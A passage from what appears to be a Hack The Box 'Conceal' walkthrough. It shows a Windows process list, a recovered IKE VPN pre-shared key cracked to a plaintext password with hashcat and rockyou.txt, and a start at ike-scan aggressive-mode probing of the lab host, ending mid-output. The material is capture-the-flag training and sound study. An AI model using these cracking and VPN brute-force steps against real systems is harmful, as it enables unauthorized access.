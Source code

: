     1928                  running               MsMpEng.exe
    1936                  running               VGAuthService.exe     C:\Program Files\VMware\VMware Tools\VMware VGAuth\
    1952                  running               vmtoolsd.exe          C:\Program Files\VMware\VMware Tools\
    2000                  running               ManagementAgentHost.exe  C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\
    2628                  running               svchost.exe           C:\Windows\system32\  -k NetworkServiceNetworkRestricted
    2768                  running               SearchIndexer.exe     C:\Windows\system32\  /Embedding
    2896                  running               WmiPrvSE.exe          C:\Windows\system32\wbem\
    3036                  running               dllhost.exe           C:\Windows\system32\  /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}
    3204                  running               msdtc.exe             C:\Windows\System32\
    3528                  running               NisSrv.exe
    3696                  running               svchost.exe           C:\Windows\system32\  -k LocalSystemNetworkRestricted
    4076                  running               svchost.exe           C:\Windows\system32\  -k LocalServiceAndNoImpersonation

We get a lot of interesting data;
- IKE VPN PSK: 9C8B1A372B1878851BE2C097031B6E43 (Dudecake1!)
- Usernames; Destitute, Administrator
- A lot of listening TCP- and UDP-ports.


3. The hash looks like md5, but trying to crack it with hashcat and wordlist rockyou.txt gives nothing.
Using hash-identifier we get the option of 'NTLM', and sure enough trying that gives us a password.

[root:/git/htb/conceal]# hash-identifier
  --- snip ---
   HASH: 9C8B1A372B1878851BE2C097031B6E43

  Possible Hashs:
  [+] MD5
  [+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

  Least Possible Hashs:
  [+] RAdmin v2.x
  [+] NTLM


[root:/git/htb/conceal]# hashcat -a0 -m1000 '9C8B1A372B1878851BE2C097031B6E43' /usr/share/wordlists/rockyou.txt
  --- snip ---
  9c8b1a372b1878851be2c097031b6e43:Dudecake1!

Using ike-scan we can verify if they're running in aggressive or main mode. If aggressive mode, we can easily
brute force the group ID, and later a password hash to gain access.

Aggressive test:
[root:/git/htb/conceal]# ike-scan -M -A 10.10.10.116 --id=test --sport=5001                                                       (master✱)
  Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
